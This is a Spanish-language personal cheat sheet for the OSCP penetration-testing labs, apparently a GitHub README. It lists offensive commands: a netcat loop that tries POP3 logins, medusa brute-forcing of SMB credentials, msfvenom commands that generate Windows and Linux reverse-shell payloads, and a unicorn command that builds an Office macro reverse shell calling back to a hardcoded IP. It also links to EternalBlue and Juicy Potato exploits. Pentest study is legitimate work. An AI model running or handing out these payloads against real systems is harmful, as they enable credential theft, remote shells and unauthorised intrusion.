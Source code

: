 # Another-OSCP-Cheatsheet
Os introduzco aquí la cheatsheet personal que he ido usando durante mi recorrido por los labs del OSCP:

## POP3 enum
Este script de bash nos permite enumerar un servicio POP3 para tratar de encontrar algún correo en alguno de los usuarios que hemos encontrado en la etapa de reconocimiento:

    for user in <user1> <user2> <user3>.. <userX>; do
    ( echo USER ${user}; sleep 2s; echo PASS abcd; sleep 2s; echo LIST; sleep 2s; echo quit) | nc -nvC <ip> <port>;  done
## SMB enum
**SHARES**
Analiza que shares de SMB están disponibles con un usuario invitado:

    nmap <ip> --script=smb-enum-shares
**SMB USER/CHECK**
Comprueba esa gigante wordlist de usuarios que has ido reuniendo durante la etapa de reconocimiento, fácil y sencillo:

    medusa -M smbnt -h <ip> -U userfile -P passfile -m GROUP:DOMAIN -v 4	
## MSFVenom Payloads
**Windows Payload**  
Intercambia el x64 por x86 si estás en una máquina de 32 bits:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR IP> LPORT=<PORT> -f <format; example: jsp, php..> > file.<format>
    
**Linux Payload**  
Intercambia el x64 por x86 si estás en una máquina de 32 bits:

    msfvenom -p linux/x64/shell_reverse_tcp LHOST=<YOUR IP> LPORT=<PORT> -f <format; example: jsp, php..> > file.<format>

## Kernel Cross-Compiling

Especialmente útil si estás enfrentando una caja old-school que aún tiene un SO de 32 bits (créeme, hay muchiiiisimas cajas así en los labs del OSCP xd)
Utiliza la opción --static sabiamente https://stackoverflow.com/questions/8692128/static-option-for-gcc

    gcc ¿--static? -m32 -Wl, --hash-style=both <nombre.c> -o <output>			
## MACRO PAYLOAD
**UNICORN** es una herramienta FANTÁSTICA que debes usar en tu trayecto por los labs del OSCP, si debes crear cualquier macro para una suite office, este software te va a facilitar la vida enormemente https://github.com/trustedsec/unicorn

    python unicorn.py windows/x64/shell_reverse_tcp 11.1.1.151234 macro
    
## Common Exploits
**MS17-010** Si te enfrentas a EternalBlue :) https://ivanitlearning.wordpress.com/2019/02/24/exploiting-ms17-010-without-metasploit-win-xp-sp3/  
**Juicy Potato** Si cuentas con un usuario y al hacer "whoami /priv" cuenta con privilegios SeImpersonate o SeAssignPrimaryToken... https://github.com/ohpe/juicy-potato

## Exploit search

    searchsploit <service name>
    

